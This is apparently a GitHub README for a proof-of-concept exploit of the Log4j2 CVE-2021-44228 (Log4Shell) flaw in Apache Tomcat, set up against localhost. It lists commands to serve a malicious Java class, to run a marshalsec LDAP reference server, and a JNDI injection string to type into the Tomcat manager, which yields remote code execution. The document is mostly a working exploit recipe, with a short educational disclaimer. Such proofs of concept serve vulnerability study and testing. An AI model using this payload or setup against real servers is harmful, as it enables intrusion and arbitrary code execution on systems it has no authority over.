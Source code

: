 # Log4j2 CVE-2021-44228 Vulnerability POC in Apache Tomcat


## Preview
![GIF](./assets/images/log4jshell_tomcat.gif)


## Setup

### Start tomcat server
```
git clone
cd apache-tomcat-10.0.14/bin
startup.bat
```
### Serve the exploit class
```
cd exploit
py -m http.server 8888
```
```
cd exploit
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Exploit"
```

### Attack
Input ${jndi:ldap://127.0.0.1:1389/Exploit} in the field 'XML Configuration file path' inside http://localhost:8080/manager/html manager app

Exploit class is loaded and RCE done (Calculator app will be loaded)

## Disclaimer

The repo is just a POC done for educational purpose.

## References
LDAP exploit https://github.com/mbechler/marshalsec
